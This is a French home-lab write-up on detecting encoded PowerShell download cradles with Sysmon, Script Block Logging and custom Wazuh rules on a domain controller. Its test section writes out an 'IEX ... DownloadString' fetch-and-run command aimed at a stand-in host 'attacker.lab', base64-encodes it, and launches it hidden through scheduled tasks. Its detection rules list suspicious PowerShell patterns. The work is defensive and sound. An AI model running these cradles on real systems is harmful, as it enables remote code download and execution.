



# PowerShell suspect — détection Wazuh

**Statut :** validé le 08/10/2026

Exécution d'une commande PowerShell encodée/obfusquée sur **DC01**, et détection sur **deux télémetries complémentaires** : la ligne de commande vue par **Sysmon (Event ID 1)** et le script **déchiffré** journalisé par le **Script Block Logging (Event ID 4104)**. Au-delà du décodage natif (bas niveau), objectif : deux alertes de **niveau élevé** sur les motifs suspects — commande encodée (`-enc`) / `DownloadString` côté Sysmon, et contenu malveillant déchiffré côté 4104.

```
DC01 : powershell.exe -enc / DownloadString
   ├─ Sysmon     → canal Microsoft-Windows-Sysmon/Operational     (EID 1 : ligne de commande)
   └─ PowerShell → canal Microsoft-Windows-PowerShell/Operational (4104 : script déchiffré)
        → agent Wazuh (eventchannel) → manager (sysmon_event1 → 100114 / 91837 → 100115) → dashboard
```

## Environnement

| Élément | Valeur |
|---|---|
| Cible | DC01 — Windows Server 2025, domaine `lab.local` (LAB), `192.168.159.10`, VMnet8 (NAT) |
| Journaux sources | Sysmon (`Microsoft-Windows-Sysmon/Operational`, **déjà collecté**) + PowerShell (`Microsoft-Windows-PowerShell/Operational`, **à collecter**) |
| Sysmon | config sysmon-modular, EID 1 (création de processus) actif |
| PowerShell | Windows PowerShell 5.1 ; **Script Block Logging à activer** (source du 4104) |
| Cradle (téléchargement) | URL bidon injoignable (`http://attacker.lab/...`) — seul le motif dans le script compte, pas la connexion |
| Wazuh | manager 4.9.2 (`192.168.159.141`), agent 4.9.2 `DC01` (ID 001) |
| Acteur | compte `Administrateur` du domaine (OS en français) |

## 1. Pré-requis — activation du logging et collecte

Deux choses manquent par défaut, à faire **sur DC01** ; Sysmon, lui, est déjà en place (cas Sysmon précédents) et son canal déjà lu par l'agent.

### a. Activer le Script Block Logging (source du 4104)

Contrairement au canal **Security** (collecté nativement), le **Script Block Logging est désactivé par défaut** : sans lui, aucun 4104 n'est produit.

```powershell
$k = 'HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging'
New-Item $k -Force | Out-Null
Set-ItemProperty $k -Name EnableScriptBlockLogging -Value 1 -Type DWord
Get-ItemProperty $k -Name EnableScriptBlockLogging     # doit renvoyer 1
```
### b. Collecter le canal PowerShell/Operational côté agent

Comme pour Suricata (bloc `localfile` ajouté pour `eve.json`), le canal **PowerShell/Operational n'est pas collecté par défaut** par l'agent Windows : il faut l'ajouter. Dans `C:\Program Files (x86)\ossec-agent\ossec.conf`, à l'intérieur de `<ossec_config>` :

```xml
<localfile>
  <location>Microsoft-Windows-PowerShell/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```

Redémarrage de l'agent (le service refuse parfois `Restart-Service` — forcer via le PID) :

```powershell
$svc = Get-CimInstance Win32_Service -Filter "Name='WazuhSvc'"
if ($svc.ProcessId -gt 0) { Stop-Process -Id $svc.ProcessId -Force }
Start-Sleep 3 ; Start-Service WazuhSvc
```

Vérifier que l'agent analyse bien le canal, sans erreur de configuration :

```powershell
Select-String -Path "C:\Program Files (x86)\ossec-agent\ossec.log" -Pattern "PowerShell/Operational","ERROR" | Select-Object -Last 10
```

On attend une ligne `(1951): Analyzing event log: 'Microsoft-Windows-PowerShell/Operational'` et aucune `ERROR`.
Le canal **Sysmon** est déjà collecté et la native EID 1 déjà active : rien à ajouter de ce côté.

## 2. Exécution de l'attaque (DC01)

La cible de téléchargement est volontairement injoignable (`http://attacker.lab/...`) : la `WebException` est attendue et sans importance, car **le Script Block Logging journalise le script à la compilation, avant la tentative réseau** — le motif `DownloadString` est donc capturé de toute façon.

**Point important mis en évidence pendant le test :** le Sysmon EID 1 capture la ligne de commande *telle qu'elle est passée à `CreateProcess`*. Lancée depuis un shell `cmd` (le défaut d'OpenSSH sur le DC), la commande complète part sur le processus **parent `cmd.exe`** et le `powershell.exe` enfant n'a que `powershell` dans sa `commandLine` → la règle Sysmon (100114) ne voit rien. Pour reproduire un lancement **réaliste en processus unique** (comme une tâche planifiée, un service ou une macro), on passe par le Planificateur de tâches, où `powershell.exe` reçoit toute sa ligne.

```powershell
# Test 1 — commande en clair, lancée en processus unique (tâche planifiée) : couvre 100114 + 100115
$cmd = 'IEX (New-Object Net.WebClient).DownloadString(''http://attacker.lab/test.ps1'')'
schtasks /create /tn psdemo /tr "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command $cmd" /sc once /st 23:59 /f
schtasks /run /tn psdemo ; Start-Sleep 3 ; schtasks /delete /tn psdemo /f
```

```powershell
# Test 2 — commande encodée (-enc) : la ligne ne montre que du base64, le 4104 journalise le script déchiffré (100115)
# schtasks /tr est limité à 261 caractères → on place la commande encodée dans un petit .ps1
$p   = 'IEX (New-Object Net.WebClient).DownloadString(''http://attacker.lab/test.ps1'')'
$enc = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($p))
Set-Content C:\Windows\Temp\t.ps1 "powershell.exe -NoProfile -WindowStyle Hidden -EncodedCommand $enc"
schtasks /create /tn psdemo2 /tr "powershell.exe -ExecutionPolicy Bypass -File C:\Windows\Temp\t.ps1" /sc once /st 23:59 /f
schtasks /run /tn psdemo2 ; Start-Sleep 3 ; schtasks /delete /tn psdemo2 /f
Remove-Item C:\Windows\Temp\t.ps1
```

Contrôle local du 4104 (le script apparaît en clair, base64 déchiffré) :

```powershell
Get-WinEvent -LogName 'Microsoft-Windows-PowerShell/Operational' -MaxEvents 10 |
  Where-Object Id -eq 4104 | Format-List TimeCreated, Message
```
## 3. Comportement natif de Wazuh

| Événement | Règle native | Niveau |
|---|---|---|
| Sysmon EID 1 — `powershell.exe` | groupe `sysmon_event1` (`0800-sysmon_id_1.xml`) | 0 (décodé, pas d'alerte) |
| PowerShell 4104 — script block | **91837** — *Possible string execution as code* (parent `91801`, canal PowerShell/Operational) | 4 |

Le Sysmon EID 1 reste au niveau 0 (décodé, pas d'alerte). Le 4104 déclenche bien une native (91837, niveau 4), mais insuffisante comme signal fort. Ce sont les **motifs suspects** (commande encodée, `DownloadString`) qu'on veut promouvoir — d'où les deux règles custom, une par source.

> **Note ruleset 4.9.2 — points d'ancrage natifs.** Les `if_sid` « attendus » du brouillon se sont révélés faux sur ce ruleset et ont été corrigés après test : le 4104 n'est pas rattaché à `91801` mais remonté par **91837**, et l'EID 1 ne passe pas par `61603` mais par le **groupe `sysmon_event1`**. Diagnostic : `wazuh-logtest` sur un event réel, et `grep` dans `/var/ossec/ruleset/rules/`.

## 4. Réglage — règles custom

Dans `/var/ossec/etc/rules/local_rules.xml` sur le **manager**. IDs **100114** et **100115** : premiers libres après 100110 (SSH), 100111 (RDP/SMB) et 100113 (user/admin) ; 100112 déjà brûlé (testé puis retiré au cas 4).

```xml
<group name="windows,sysmon,powershell,">

  <!-- Sysmon EID 1 : PowerShell lancé avec une commande encodée/obfusquée -->
  <rule id="100114" level="12">
    <if_group>sysmon_event1</if_group>
    <field name="win.eventdata.commandLine" type="pcre2">(?i)(-e(nc(odedcommand)?|c)?\s+[A-Za-z0-9+/=]{16,}|frombase64string|downloadstring|downloadfile|net\.webclient|invoke-expression|\biex\b)</field>
    <description>PowerShell suspect (Sysmon EID 1) : ligne de commande encodee/obfusquee - $(win.eventdata.commandLine)</description>
    <mitre>
      <id>T1059.001</id>
      <id>T1027</id>
    </mitre>
    <group>execution,defense_evasion,</group>
  </rule>

  <!-- PowerShell 4104 : contenu de script block suspect (après déchiffrement) -->
  <rule id="100115" level="12">
    <if_sid>91837</if_sid>
    <field name="win.eventdata.scriptBlockText" type="pcre2">(?i)(downloadstring|downloadfile|downloaddata|net\.webclient|invoke-expression|\biex\b|frombase64string|-e(nc(odedcommand)?|c)\b|invoke-mimikatz|reflection\.assembly)</field>
    <description>PowerShell suspect (Script Block 4104) : motif malveillant dans le script déchiffré - $(win.eventdata.scriptBlockText)</description>
    <mitre>
      <id>T1059.001</id>
      <id>T1105</id>
    </mitre>
    <group>execution,</group>
  </rule>

</group>
```

Les réglages :
- **100114** `if_group sysmon_event1` → évaluée sur chaque création de processus décodée par Sysmon. Le regex `commandLine` couvre la commande encodée (`-e`/`-ec`/`-enc`/`-EncodedCommand` suivi d'un blob base64) **et** les indicateurs en clair (`DownloadString`, `Net.WebClient`, `IEX`, `FromBase64String`). Le groupe `sysmon_event1` remplace l'ancien `if_sid 61603`, périmé sur le ruleset 4.9.2.
- **100115** `if_sid 91837` + regex sur `scriptBlockText` → le Script Block Logging **déchiffre** le `-enc`, donc `DownloadString` réapparaît dans le texte du script et déclenche la règle là où Sysmon était aveugle. C'est la détection la plus robuste contre l'obfuscation base64. La contrainte `win.system.eventID 4104` a été retirée : la native 91837 pré-filtre déjà les script blocks, la rajouter empêchait le match.
- `level 12` sur les deux → au-dessus du natif, classé événement de forte importance (carte « Level 12 or above » du dashboard). Plus spécifiques que les natives, les règles custom l'emportent.
- MITRE : **T1059.001** (*PowerShell*) commun ; **T1027** (*Obfuscated Files or Information*) pour l'encodage ; **T1105** (*Ingress Tool Transfer*) pour le téléchargement distant.

Validation **avant** redémarrage :

```bash
sudo /var/ossec/bin/wazuh-analysisd -t   # doit se terminer sans ERROR
sudo systemctl restart wazuh-manager
```

## 5. Validation

Rejouer les deux tests (section 2), puis dashboard **Threat Hunting → Events**, **Last 1 hour** :

```
rule.id:100114 or rule.id:100115
```

Résultat sur l'agent `DC01`, taggé **T1059.001** :
- **100114** (niveau 12) — test en clair en processus unique : ligne de commande suspecte dans `data.win.eventdata.commandLine`.
- **100115** (niveau 12) — tests en clair **et encodé**. Sur le test encodé, `data.win.eventdata.scriptBlockText` montre le `DownloadString` **déchiffré** alors que la ligne de commande ne portait que du base64 : la démonstration que le 4104 défait le `-enc`.

Contrôle direct côté manager (lecture robuste même si `tail` coupe la 1re ligne) :

```bash
sudo grep DownloadString /var/ossec/logs/alerts/alerts.json \
 | jq -R 'fromjson? | select(.rule.id=="100114" or .rule.id=="100115") | "\(.timestamp)  \(.rule.id)  niveau \(.rule.level)"'
```

**Table des alertes — 100114 (Sysmon EID 1) et 100115 (Script Block 4104), niveau 12 sur DC01 :**



**Détail de l'alerte 100115 — le `scriptBlockText` montre `DownloadString` déchiffré, alors que la commande était passée en `-enc` :**



**Vue d'ensemble du dashboard — 3 alertes, toutes « Level 12 or above » :**



## Problèmes rencontrés

| Symptôme | Cause | Solution |
|---|---|---|
| Aucun 4104 dans l'observateur local | Script Block Logging non activé | créer `EnableScriptBlockLogging=1` (section 1a) |
| 4104 présents sur DC01 mais absents dans Wazuh | canal `PowerShell/Operational` non collecté (bloc `localfile` manquant) | ajouter le `localfile` + redémarrer l'agent (section 1b) |
| `Restart-Service wazuh` échoue (`CouldNotStopService`) | l'agent ne s'arrête pas proprement | forcer via le PID (`Stop-Process`) puis `Start-Service WazuhSvc` |
| Warning `(1958): Log file … is duplicated` | le manager pousse déjà le canal via `agent.conf` | sans impact (dédoublonné) ; retirer le `localfile` local si on veut nettoyer |
| 100115 ne se déclenche jamais | `if_sid 91801` erroné sur ce ruleset ; le 4104 remonte via **91837** | `if_sid 91837` + retrait de la contrainte `eventID 4104` |
| 100114 muette alors que la commande est suspecte | `if_sid 61603` erroné ; l'EID 1 passe par le groupe **`sysmon_event1`** | `if_group sysmon_event1` |
| 100114 toujours muette depuis un shell cmd | la ligne complète est sur le parent `cmd.exe`, le `powershell` enfant n'a que `powershell` | lancer en **processus unique** (tâche planifiée / service / macro) |
| `schtasks /tr … -EncodedCommand` → « plus de 261 caractères » | limite de l'argument `/tr` | placer la commande encodée dans un `.ps1` et lancer via `-File` |
| `jq: parse error: Unfinished string at EOF` | `tail -n` coupe la 1re ligne JSON | `grep <motif> … | jq -R 'fromjson? | …'` |
| `grep MARQUEUR13` renvoie un résidu de `MARQUEUR12` | préfixe commun `MARQUEUR1` | marqueurs sans préfixe partagé |
| `archives.json` introuvable | `logall_json` désactivé (défaut) | juger par `alerts.json` / `wazuh-logtest`, ou activer `logall` temporairement |

## Limites et suite

- **Sysmon EID 1 dépend du mode de lancement** : efficace sur un `powershell.exe` lancé en processus unique avec toute sa ligne (tâche, service, macro — le cas réel), aveugle quand un shell intermédiaire déporte les arguments sur le parent. Piste : ajouter une règle sœur sur `parentImage`/`parentCommandLine` pour couvrir le cas `cmd.exe → powershell`. La **100115 (4104) reste le filet robuste** — elle a matché à tous les coups, quel que soit le mode d'invocation.
- **Corréler 4104 → Sysmon EID 1** (même `processID`, courte fenêtre) pour relier le script à son processus et à l'initiateur : le 4104 ne remonte pas l'utilisateur en clair à Wazuh (le SID est dans `System/Security/UserID`, non décodé).
- **Faux positifs sur 100115** : des scripts d'admin légitimes utilisent `Invoke-WebRequest`/`IEX`. Restreindre le regex aux indicateurs forts ou ajouter une exclusion par `scriptBlockText` (`level 0`) pour les scripts connus.
- Sources complémentaires : **Module Logging (4103)**, **transcription PowerShell**, et **AMSI** (Defender 1116/1117) pour l'obfuscation que le 4104 ne couvre pas.
- Durcir **100114** contre le renommage du binaire : matcher aussi `win.eventdata.originalFileName` (`PowerShell.EXE`), indépendant du nom de l'exécutable.
- **Active Response** (kill du processus, voire isolation de l'hôte) sur 100114/100115.
